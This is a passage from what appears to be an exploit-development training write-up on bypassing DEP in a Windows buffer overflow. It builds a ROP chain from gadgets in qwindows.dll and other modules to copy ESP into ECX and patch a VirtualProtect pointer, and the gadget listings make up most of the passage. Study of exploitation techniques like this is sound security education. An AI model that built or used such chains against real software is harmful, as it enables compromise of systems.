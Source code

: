 What it means?

We will place the addresses on EAX, and then write-what it on ECX, as a pointer

```
0x6aaa04ec  # mov dword ptr [ecx], eax; ret;  :: qwindows.dll                         
```

Só let's make our ESP copy. The gadgets we'll use will be this one.

```py
##############
# -> Make ESP equal to ECX (-20)
##############
## Put ESP on EBX
0x6aaf2fd3,  # push esp; pop ebx; pop esi; ret;
0x3333333, # junk to populate ESI
## Change EBX with EAX
0x68aad07c,  # xchg eax, ebx; ret;
## Change EAX wih ECX
0x68be726b,  # xchg eax, ecx; ret;
## Put -20 in EBP and ADD it in ECX
0x6aa812c9,  # pop ebp; ret;
0xffffffe0, # -20
0x6d9c8e42,  # add ecx, ebp; ret;
```

And here we got a copy of ESP into ECX,

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/esp-ecx.gif)

# Patch VirtualProtect

Now, our next step is to patch the VirtuaProtect Address on the Place of 0x45454545.

We'll make use of three gadgets here, one to POP it's value in any register, one to make it a POINTER, and one to write-what it on ECX.

```py
##############
# -> PUT VirtualProtect in 0x45454545
##############
## Put VirtualProtect Addres in EAX
0x68ae7ee3,  # pop eax; ret;
0x690398A8, # VirtualProtect Address
## Make it a Pointer
0x6fe58ce5,  # mov eax, dword ptr [eax]; ret;
## Write it on ECX
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/virtual-0x45.gif)

Okay, now let's continue
